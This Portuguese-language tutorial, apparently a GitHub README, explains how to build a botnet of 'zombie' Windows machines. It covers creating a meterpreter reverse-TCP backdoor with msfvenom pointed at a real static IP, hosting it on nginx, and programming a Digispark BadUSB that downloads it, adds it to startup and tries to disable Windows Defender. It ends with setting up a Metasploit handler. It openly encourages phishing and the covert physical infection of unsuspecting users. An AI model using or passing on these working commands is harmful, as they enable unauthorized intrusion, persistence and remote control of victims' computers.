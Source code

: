 

**Criar uma instancia e definir um IP estático**

 Eu estarei utilizando o **GCP(Google cloud platform)** mas você pode utilizar o provedor de **CLOUD** que deseja ou até mesmo um VPS.

Acesso meu console e crio a instância. instância essa que é bem básica, uma micro com SO Debian 9

Com o a instância criada, eu defino um IP estático para ela.
O IP estático é necessário para que não ocorra o risco do IP que definirmos no nosso backdoor mudar e perdemos nossos "computadores zumbis" já conquistados.

**Instalar METASPLOIT**

![](https://res.cloudinary.com/peerlyst/image/upload/c_limit,dpr_auto,f_auto,fl_lossy,h_428,q_auto,w_880/v1/post-attachments/1567258807005_bbvioc)

 Nesse passo vamos instalar nosso canivete suiço **METASPLOIT** para criamos nosso **BACKDOOR** e orquestramos nossos "computadores zumbis"

   Conecte-se a sua instância por ssh para instalarmos o **METASPLOIT**
   
 ```shell
 curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall
```
conceda permisão de execução para o instalador

 ```shell
 chmod +x msfinstall
```
agora execute o mesmo

 ```shell
 ./msfinstall
```
e após concluir rode


 ```shell
 msfconsole --version
```
Como vai ser a primeira execução o **METASPLOIT** vai perguntar se você deseja configurar seu ambiente, criando um novo banco de dados para o metasploit você responde com um sim e seus dados que ele vai criar as credenciais e configurar tudo para que você possa utilizar a ferramenta.

**Criar backdoor**

![](https://encrypted-tbn0.gstatic.com/images?q=tbn%3AANd9GcSCSVqEzi43NukYA2E1HUfNSnztdZxoeFKaTczSbokL40tqbRL9)

Agora vamos criar o nosso backdoor definindo qual tipo de conexão iremos usar, que vai ser uma **REVERSA TCP** para qual tipo de SO alvo, que será máquinas Windows, o nosso **LHOST**(IP de comunicação) que vai ser o nosso IP estático, nossa **LPORT**(porta de comunicação) a porta TCP, o tipo da extensão do backdoor **-f exe**, que são executáveis do windows, o algoritmo de criptografia e compreensão, **-i** o numero de interações do encoded com o backdoor, e **-o** o nosso arquivo de saída.  Se você estive em uma cloud provavelmente vai ter que *criar uma regra de firewall* para a sua porta escolhida

 ```shell
 msfvenom -p windows/meterpreter/reverse_tcp LHOST=34.97.212.80 LPORT=5000 -f exe -e x86/shikata_ga_nai -i 5 -o payload.exe
```

Rodando um ls para listar os arquivos do diretório verá que o arquivo payload.exe foi criado


**Configurar servidor web para download**

O **NGINX** vai ser necessário para  criarmos um servidor web no qual o nosso payload do **Digispark** possa fazer o download do **BACKDOOR** para dentro da máquina alvo. Ou enviarmos o link através de engenharia social para obter acesso a máquina alvo. 
 
 Vamos instalar o nginx

 ```shell
 sudo apt-get update
 sudo apt-get install -y nginx
```
Iremos criar uma copia do nosso backdoor dentro da pasta do servidor

 ```shell
 sudo cp ./payload.exe /var/www/html/payload.exe
````

Feito isso nosso arquivo vai esta disponível para download em

http://34.97.212.80/payload.exe


**DigiQuack: Digispark**

![](https://pbs.twimg.com/media/ELWqVmnXUAE5ku8.jpg)



Para quem não conhece o **Digispark**, ele é uma placa de desenvolvimento com tamanho reduzido e 6 pinos de I/O (entrada/saída), ideal para uso em projetos de IoT (Internet of Things ou Internet das Coisas) ou simplesmente para uso em projetos onde você não precisa de muitas portas do microcontrolador.

Para continuarmos com nosso ataque, precisamos conquistar nosso primeiro "Zumbir". Podemos fazer isso de várias formas envolvendo engenharia social entre elas as mais comuns, como enviar o nosso link para um amigo, ofuscado de tal forma que não levante suspeitas, Ou também utilizando técnicas de **Phishing**.

Mas aqui vou abordar um **ataque de infecção físico**, onde vamos precisar ter acesso físico a uma máquina e em posse de um **Digispark** iremos infectar o alvo.

![](https://i.ytimg.com/vi/YXWxEzLHXuw/maxresdefault.jpg)

> *Poderíamos utilizar o **Rubber duck** *(dispositivo esse usado na serie Mr. Robot)* original, mas no Brasil é difícil encontramos e os poucos chegam a ser vendidos por precinho um pouco salgado.*

O **Digispark** chega ser um genérico ao Rubber duck tem um desempenho inferior mas é uma alternativa acessível e viável para o nosso ataque e pode ser programada com a **IDE do Arduíno**. Com isso configuraremos o Digispark para ser reconhecido como um teclado, qual não iremos precisar de nenhum tipo de permissão do usuário da máquina, e iremos executar comandos de teclado para fazer o download do backdoor e executar ele na máquina, adicionando ele junto a inicialização do Windows, para que quando a máquina for reiniciada obtermos uma nova conexão.

Agora bora lá, para isso você vai precisar de um [Digispark ATtiny85 que pode ser encontrado no mercado livre por R$ 16](https://eletronicos.mercadolivre.com.br/pecas-componentes/arduino-digispark " Digispark ATtiny85 que pode ser encontrado no mercado livre por R$ 16"). Com ele em mãos agora você vai precisar carregar nele os módulos de "teclado" transformando-o em um "rubbe duck" para isso você pode seguir os passos [deste tutorial](https://aminbohio.com/creating-a-cheap-rubber-ducky-aka-bad-usb-with-attiny85 "este tutorial") e voltar aqui.

> *Talvez você enfrente problemas ao efetuar a injeção de payload no digispark para resolver isso você vai precisar [configurar o uDev]( https://www.hardware.com.br/livros/ferramentas-linux/entendendo-udev.html "configurar o uDev ")*

**Criar Payload para injetar o backdoor**

Feito tudo isso e com o **Arduíno IDE** instalado vamos criar o nosso Payload que ao plugarmos em uma máquina vai fazer o download do backdoor, mover ele para a inicialização do windows, tentar desativar o windows defender e executar nosso backdoor, tudo isso em menos de 30 segundos.

Abra o **Arduíno IDE** e cole o [payload que vou deixar aqui](https://github.com/despossivel/Vetor-de-ataque-com-CLOUD---BACKDOOR-DIGISPARK/blob/master/payload.ino "payload que vou deixar aqui") para vocês. Copiado, colado e entendido o que o payload faz, clique em verificar, para debugar nosso código e depois clique em carregar e aguarde a IDE solicitar que você pluge o digispark. Ao plugar a IDE vai injetar na placa nosso payload e SUCESSO! 

![](https://cedarctic.github.io/digiQuack/images/logo.png)

Nosso **DigiQuack esta criado**.

Agora basta pluga-lo em qualquer máquina windows desviar a atenção do usuário da máquina aguardar alguns segundos e remove-lo, tudo muito rápido.

Você também pode enviar o link para alguém e aguardar que ele se junte a sua rede de zumbis hahahaha


**Iniciar a escuta das conexões**

Agora voltamos para a nossa instância para iniciarmos a escuta na nossa porta. Em acesso SSH iniciamos o console do Metasploit executado

```shell
msfconsole
```
Depois de iniciado vamos selecionar qual exploit iremos usar, que é o multi/handle
feito isso setamos o meterpreter de conexão reversa tcp para o windows, setamos o nosso HOST e PORTA, os mesmo usados na criação do backdoor, e ExitOnSession para que o manipulador possa continuar executando como trabalho mesmo com uma sessão fechada ou com falha no medidor.

```shell
    msf >use exploit/multi/handler
    msf >set PAYLOAD windows/meterpreter/reverse_tcp
    msf >set LHOST 34.97.212.80
    msf >set LPORT 5000
    msf >set ExitOnSession false
```
feito isso estamos prontos para receber nossas conexões, você pode pressionar ctrl+c para liberar o terminal que agora iremos visualizar nossas conexões e obter acesso.

**Obter acesso a uma máquina infectada**


Para ficar na escuta em tempo real de quem se conectou ou desconectou rode.

```shell
msf > exploit -j -z
```
 para listar nossas conexões de entrada até o momento

```shell
msf> sessions -l 
```
você terá uma saída algo como

![](https://s5.gifyu.com/images/sessionsL.png)

e para acessar um "zumbir"
```shell
msf> sessions -i <numero da sessão> 
```

com isso você obtêm acesso shell 

![](https://s5.gifyu.com/images/sessionsI.png)

 
#### **CONHECIMENTO NÃO É CRIME, CRIME É O QUE VOCÊ FAZ COM ELE.**

#### **ENTÃO UTILIZE  O QUE APRENDEMOS AQUI PARA FINS DIDÁTICOS, PARA ZUAR UM AMIGO OU IRMÃO E RESPEITE A PRIVACIDADE DOS OUTROS**

@despossivel
